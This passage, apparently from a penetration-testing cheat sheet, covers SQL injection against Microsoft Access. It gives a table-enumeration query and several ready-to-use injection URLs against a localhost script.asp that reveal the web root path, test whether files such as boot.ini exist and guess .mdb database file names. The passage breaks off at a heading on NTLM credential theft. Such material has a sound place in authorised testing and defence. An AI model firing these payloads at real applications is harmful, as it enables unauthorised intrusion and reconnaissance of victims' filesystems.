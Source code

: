 ## Enumerating tables

From [**here**](https://dataedo.com/kb/query/access/list-of-tables-in-the-database) you can see a query to get tables names:

```sql
select MSysObjects.name
from MSysObjects
where
   MSysObjects.type In (1,4,6)
   and MSysObjects.name not like '~*'
   and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```

However, note that is very typical to find SQL Injections where you **don't have access to read the table `MSysObjects`**.

## FileSystem access

### Web Root Directory Full Path

The knowledge of the **web root absolute path may facilitate further attacks**. If application errors are not completely concealed, the directory path can be uncovered trying to select data from an inexistent database.

`http://localhost/script.asp?id=1'+ '+UNION+SELECT+1+FROM+FakeDB.FakeTable%00`

MS Access responds with an **error message containing the web directory full pathname**.

### File Enumeration

The following attack vector can be used to **inferrer the existence of a file on the remote filesystem**. If the specified file exists, MS Access triggers an error message informing that the database format is invalid:

`http://localhost/script.asp?id=1'+UNION+SELECT+name+FROM+msysobjects+IN+'\boot.ini'%00`

Another way to enumerate files consists into **specifying a database.table item**. **If** the specified **file exists**, MS Access displays a **database format error message**.

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+C:\boot.ini.TableName%00`

### .mdb File Name Guessing

**Database file name (.mdb)** can be inferred with the following query:

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+name[i].realTable%00`

Where **name[i] is a .mdb filename** and **realTable is an existent table** within the database. Although MS Access will always trigger an error message, it is possible to distinguish between an invalid filename and a valid .mdb filename.

### Remote Database Access & NTLM Credential Theft (2023)
